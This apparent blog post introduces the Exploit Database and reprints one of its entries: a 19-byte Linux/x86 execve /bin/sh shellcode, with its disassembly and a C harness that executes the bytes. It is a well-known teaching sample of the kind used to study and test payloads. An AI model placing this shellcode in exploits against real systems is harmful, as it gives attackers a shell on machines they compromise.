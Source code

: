 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Exploits
tags: Resource, Hack
category: Hack
status: publish
-->
## Introduction ##
The Exploit Database is a CVE compliant archive of public exploits and corresponding vulnerable software, developed for use by penetration testers and vulnerability researchers. Our aim is to serve the most comprehensive collection of exploits gathered through direct submissions, mailing lists, as well as other public sources, and present them in a freely-available and easy-to-navigate database. The Exploit Database is a repository for exploits and proof-of-concepts rather than advisories, making it a valuable resource for those who need actionable data right away.

## Linux/x86 - execve /bin/sh Shellcode (19 bytes) ##

> Every Exploit, Shellcode and Paper

    /*
    # Linux/x86 - execve /bin/sh shellcode (19 bytes)
	# Author: sajith
	# Tested on: i686 GNU/Linux
	# Shellcode Length: 19
	# SLAE - 750
 
	Disassembly of section .text:
 
	08048060 <_start>:
	8048060: 31 c0 xor eax,eax
	8048062: 50 push eax
	8048063: 68 2f 2f 73 68 push 0x68732f2f
	8048068: 68 2f 62 69 6e push 0x6e69622f
	804806d: 87 e3 xchg ebx,esp
	804806f: b0 0b mov al,0xb
	8048071: cd 80 int 0x80
	===============poc by sajith shetty=========================
	*/
 
	#include<stdio.h>
	#include<string.h>
 
	unsigned char code[] = \
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80";

	int main()
	{
		printf("Shellcode Length: %d\n", strlen(code));
		int (*ret)() = (int(*)())code;
		ret();
 		return 0;
	}

